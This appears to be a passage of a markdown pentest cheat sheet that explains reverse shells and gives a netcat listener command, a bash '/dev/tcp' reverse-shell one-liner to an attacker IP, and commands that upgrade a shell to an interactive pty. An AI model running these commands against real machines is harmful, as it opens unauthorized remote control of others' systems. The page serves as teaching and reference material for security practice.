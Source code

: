- ### Reverse Shell
  A Reverse Shell is a type of connection where a target machine initiates a remote shell back to an attacker's system, allowing the attacker to execute
  commands on the target as if they were locally present. It can be easily achieved using [Netcat](https://nmap.org/ncat/).

  #### Local Machine
  ```bash
  nc -lvnp ${PORT}
  ```
  
  #### Remove Machine
  ```bash
  bash -i >& /dev/tcp/${LOCAL_MACHINE_IP}/${PORT} 0>&1
  ```
  
<br/>

- ### Bash Spawn <br/>
  Spawns an interactive pseudo-terminal **(pty)** running **/bin/bash**, which upgrades a basic shell to behave more like a fully interactive terminal. <br/>

  ```bash
  script /dev/null -c bash
  ```
  or
  ```bash
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  ```  
